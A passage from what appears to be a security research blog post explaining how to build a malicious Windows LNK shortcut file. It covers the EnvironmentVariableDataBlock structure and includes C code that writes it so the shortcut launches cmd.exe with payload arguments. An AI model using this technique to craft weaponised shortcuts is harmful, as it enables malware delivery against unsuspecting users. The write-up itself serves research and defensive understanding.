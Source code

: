Example:

![6](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/p6.png)

Now another important part that will help our payload to get executed. We have enable the flag `HAS_EXP_STRING` and this flag is related to the `Environment Variable Data Block` structure. The `EnvironmentVariableDataBlock` structure specifies a path to environment variable information when the link target refers to a location that has a corresponding environment variable (according to Microsoft documentation). 

But before that, we need to understand that the `EnvironmentVariableDataBlock` are part of the `ExtraData` structure member. `ExtraData` refers to a set of structures that convey additional information about a link target. These optional structures can be present in an extra data section that is appended to the basic Shell Link Binary File Format. 

`EnvironmentVariableDataBlock` looks sensitive where you have to set the `BlockSize` with 788 bytes (0x00000314) and we have to set the signature of the `EnvironmentVariableDataBlock` which is `0xA0000001`. Once we set this, we can assign the buffer size for `TargetAnsi` with 260 bytes and `TargetUnicode` with 520 bytes. This is where our `envPath` will be call later on when we executing the LNK and call the rest of the parameters in the `COMMAND_LINE_ARGUMENTS`. Oh I forgot to mention that we enable the flag `IsUnicode` in `LinkFlags`, which means our arguments are call and executed with Unicode.
```c
	  const char* envPath = "%windir%\\system32\\cmd.exe";

    DWORD envBlockSize = 0x00000314;
    DWORD envSignature = ENVIRONMENTAL_VARIABLES_DATABLOCK_SIGNATURE;

    if (!WriteFile(hFile, &envBlockSize, sizeof(DWORD), &bytesWritten, NULL)) {
        printf("Failed to write env block size: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    if (!WriteFile(hFile, &envSignature, sizeof(DWORD), &bytesWritten, NULL)) {
        printf("Failed to write env block signature: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    char ansiBuffer[260] = { 0 };
    strncpy(ansiBuffer, envPath, 259);

    if (!WriteFile(hFile, ansiBuffer, 260, &bytesWritten, NULL)) {
        printf("Failed to write TargetAnsi: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

```